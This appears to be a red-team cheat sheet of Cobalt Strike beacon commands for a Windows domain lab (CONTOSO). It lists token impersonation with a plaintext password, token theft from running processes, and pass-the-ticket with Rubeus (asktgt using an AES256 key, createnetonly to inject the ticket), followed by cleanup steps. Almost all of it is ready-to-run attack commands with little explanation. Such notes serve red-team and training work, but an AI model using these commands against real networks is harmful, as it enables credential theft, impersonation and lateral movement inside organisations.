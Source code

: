 
Token Impersonation
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

```powershell
process_browser            [SYSTEM LEVEL BEACON REQUIRED]

ps
token-store steal 5248
token-store show
token-store use 0 
token-store remove 0
```

```powershell
klist
rev2self
```

PtT
Obtain ticket from med-integrity beacon
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap
```

Inject ticket into process from high-integrity beacon
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]
```

Steal token
```powershell
token-store steal 3184
token-store use 0 
```

```powershell
klist
rev2self
token-store remove 0
kill [ppid]
```